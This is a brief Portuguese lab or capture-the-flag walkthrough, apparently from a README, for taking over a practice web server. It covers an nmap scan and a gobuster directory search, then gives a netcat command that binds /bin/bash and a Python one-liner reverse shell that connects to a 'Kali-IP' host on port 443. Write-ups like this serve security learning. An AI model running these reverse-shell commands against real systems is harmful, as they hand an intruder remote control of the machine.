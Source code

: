 Nessa maquina vamos exploit a web server

Primeiramente utilizando o nmap a gente descobre as portas ssh e http

com o gobuster procuramos diretorios escondidos

```
gobuster dir -u [IP] -w usr/share/dirb/wordlists/common.txt
```

Fazer uma reverse shell para pegar root

Utilizar o netcat para criar um local de escuta
```
nc -l -p 8080 -e /bin/bash
```

E no form escutar esse nc com outro nc
```
nc <your-local-machine-ip> 8080
```
 ou utilizando uma line com python3
```
 python -c 'import pty;import socket,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("Kali-IP",443));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/bash")'
```

